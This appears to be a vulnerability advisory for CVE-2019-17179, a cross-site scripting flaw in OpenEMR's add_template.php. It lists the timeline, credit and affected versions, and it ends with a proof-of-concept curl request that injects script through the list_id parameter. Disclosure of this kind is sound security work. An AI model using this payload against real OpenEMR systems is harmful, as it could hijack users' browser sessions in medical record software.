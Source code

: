 # CVE-2019-17179
XSS in `library/custom_template/add_template.php` in
OpenEMR before 5.0.2.1 allows a malicious user to
execute code in the context of a victim's browser via a crafted `list_id` query parameter.

## Timeline
*Discovered:* October 1, 2019
*Pull Request Issued:* October 1, 2019
*Reported:* October 2, 2019
*OpenEMR merged pull Request:* October 2, 2019
*CVE ID issued:* October 4,  2019
*OpenEMR Release:* October 10, 2019 (5.0.2.1)

## Credit
Will Porter, Lodestone Security (https://www.lodestonesecurity.com/)

## Version Details
Fixed-In Version: 5.0.2.1

Affected Versions:
*4.1.0
*4.1.1
*4.1.2
*4.1.2.3
*4.1.2.6
*4.1.2.7
*4.2.0
*4.2.1
*4.2.2
*5.0.0
*5.0.0.5
*5.0.0.6
*5.0.1
*5.0.1.1
*5.0.1.2
*5.0.1.3
*5.0.1.4
*5.0.1.5
*5.0.1.6
*5.0.1.7
*5.0.2

## POC Exploit
Assuming OpenEMR is running on `localhost`
```
curl "http://localhost/openemr/library/custom_template/add_template.php?list_id=1}});}}};alert(%27xss%27);function%20derp(){if%20(true){if(true){%20$.ajax({type:%22POST%22,data:{tempateid:%201"
```
